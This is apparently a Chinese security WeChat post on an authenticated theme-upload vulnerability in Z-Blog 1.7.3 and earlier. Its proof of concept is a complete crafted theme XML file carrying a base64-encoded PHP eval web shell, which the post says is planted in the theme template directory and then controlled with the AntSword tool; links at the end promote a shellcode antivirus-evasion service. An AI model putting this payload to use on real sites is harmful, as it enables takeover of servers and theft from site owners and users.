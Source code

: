 #  【1day】Z-Blog 后台文件上传漏洞   
yijiu feng  夜组安全   2024-12-26 00:01  
  
免责声明  
  
由于传播、利用本公众号夜组安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号夜组安全及作者不为此承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
**所有工具安全性自测！！！VX：**  
**baobeiaini_ya**  
  
朋友们现在只对常读和星标的公众号才展示大图推送，建议大家把  
**夜组安全**  
“**设为星标**  
”，  
否则可能就看不到了啦！  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icZ1W9s2Jp2WrOMH4AFgkSfEFMOvvFuVKmDYdQjwJ9ekMm4jiasmWhBicHJngFY1USGOZfd3Xg4k3iamUOT5DcodvA/640?wx_fmt=png&from=appmsg "")  
  
  
**01**  
  
**漏洞描述**  
  
Affected version: Z-Blog  
  
Vendor: https://www.zblogcn.com/  
  
Software: https://www.zblogcn.com/program/zblogphp17/  
  
Vulnerability File: zba主题文件  
  
Z-Blog后台文件上传漏洞，影响版本1.7.3及以下 系统对主题文件代码没有做审查，导致将恶意代码写入主题文件后，被系统生成为文件。黑客可以利用这个漏洞，将恶意代码生成至网站目录，而后通过工具完全控制其主机。  
  
状态：严重  
  
**登陆管理后台后，通过上传精心构造的zba主题文件**，成功将木马存放至\zb_users\theme\shell\template\目录下，使用中国蚁剑连接成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icZ1W9s2Jp2WbO19REiasyrPGyModa7lFnheJMvfJ62ibsQMyUwMRkwfb6T3UBUKIq1maFxbloicvZGXbZE3H8qiasw/640?wx_fmt=png&from=appmsg "")  
  
  
**02**  
  
**漏洞POC**  
  
```
<?xml version="1.0" encoding="utf-8"?><app version="php" type="theme"><id>aymFreeFive</id><name>shell</name><url>https://xxx.xxx</url><note>shell</note><description>shell</description><path>settings/main.php</path><include>include.php</include><level>1</level><author><name>shell</name><email>iyuanma@qq.com</email><url>https://xxx.xxx/</url></author><source><name>shell</name><email>xxx@qq.com</email><url>https://xxx.xxx</url></source><adapted>1</adapted><version>1</version><pubdate>2024-12-05</pubdate><modified>2024-12-05</modified><price>0</price><phpver>5.5</phpver><advanced><dependency></dependency><rewritefunctions></rewritefunctions><existsfunctions></existsfunctions>
<conflict></conflict></advanced><sidebars><sidebar1></sidebar1><sidebar2></sidebar2><sidebar3></sidebar3><sidebar4></sidebar4><sidebar5></sidebar5><sidebar6></sidebar6><sidebar7></sidebar7><sidebar8></sidebar8><sidebar9></sidebar9></sidebars>
<folder><path>shell/scripts/</path></folder>
<folder><path>shell/settings/</path></folder>
<folder><path>shell/style/images/</path></folder>
<folder><path>shell/style/</path></folder>
<folder><path>shell/template/</path></folder>
<file><path>shell/template/shelll.php</path><stream>PD9waHAgQGV2YWwoJF9QT1NUWydwYXNzJ10pID8+</stream></file>
<verify>aHR0cDovL2xvY2FsaG9zdC9ia2IvCkM6L3hhbXBwL2h0ZG9jcy9ia2Iv</verify></app>
```  
  
  
**03**  
  
**工具下载**  
  
**点击关注下方名片****进入公众号**  
  
**回复关键字【241226****】获取**  
**下载链接**  
  
  
**04**  
  
**往期精彩**  
  
[ 免费代理池收集工具，形成自己的免费代理池，让爬虫，渗透如虎添翼。 ](http://mp.weixin.qq.com/s?__biz=Mzk0ODM0NDIxNQ==&mid=2247493015&idx=1&sn=a074af224e7eb25a6e02d1207a41e2a6&chksm=c36ba16ff41c287970660cf7fb8b8a2ce747f2afdb776e7e3f704692969f59d321001e19957e&scene=21#wechat_redirect)  

						  
  
  
[ 基于先知社区知识构建的向量知识库 ](http://mp.weixin.qq.com/s?__biz=Mzk0ODM0NDIxNQ==&mid=2247493006&idx=1&sn=b868913b4b8eb4c10a8457ea43644ba4&chksm=c36ba176f41c28606c8de9b8ddfca22e1cf2064495185ca171d3c2014fa33a8d552f5940d1b0&scene=21#wechat_redirect)  

						  
  
  
[ 一款ShellCode在线免杀处理平台 ](http://mp.weixin.qq.com/s?__biz=Mzk0ODM0NDIxNQ==&mid=2247493004&idx=1&sn=da99824f8ad6992d7c1d4cfdb4407310&chksm=c36ba174f41c28624034fb5758eae0277a2f5dfe344835c7ae03d6015c8827c6ba6df725b4ca&scene=21#wechat_redirect)  

						  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OAmMqjhMehrtxRQaYnbrvafmXHe0AwWLr2mdZxcg9wia7gVTfBbpfT6kR2xkjzsZ6bTTu5YCbytuoshPcddfsNg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&random=0.8399406679299557 "")  
  
  
